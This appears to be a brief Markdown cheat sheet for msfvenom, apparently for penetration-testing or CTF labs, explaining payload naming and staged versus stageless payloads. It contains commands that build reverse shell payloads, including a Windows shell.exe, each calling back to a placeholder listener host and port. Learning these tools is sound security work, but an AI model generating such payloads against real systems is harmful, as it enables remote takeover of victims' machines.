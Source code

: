 # Overview
## General syntax
```bash
msfvenom -p PAYLOAD OPTIONS
```
## Payload syntax
`<OS>/<arch>/<payload>`

### Staged vs stageless payloads
Stageless payload is fully within underscores:
- linux/x86/shell_reverse_tcp
- linux/x86/meterpreter_reverse_tcp
- windows/shell_reverse_tcp          # 32 bits windows payloads don't precise the arch
- windows/x64/shell_reverse_tcp

Staged payload are named in two steps: 
- linux/x86/shell/reverse_tcp
- windows/x64/meterpreter/reverse_tcp

# Listing payloads
```bash
msfvenom --list payloads
```

# Examples
```bash
# Create a reverse shell with a target UNIX
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
msfvenom -p windows/shell_reverse_tcp -f exe -o shell.exe LHOST=HOST_IP LPORT=LISTENING_PORT
```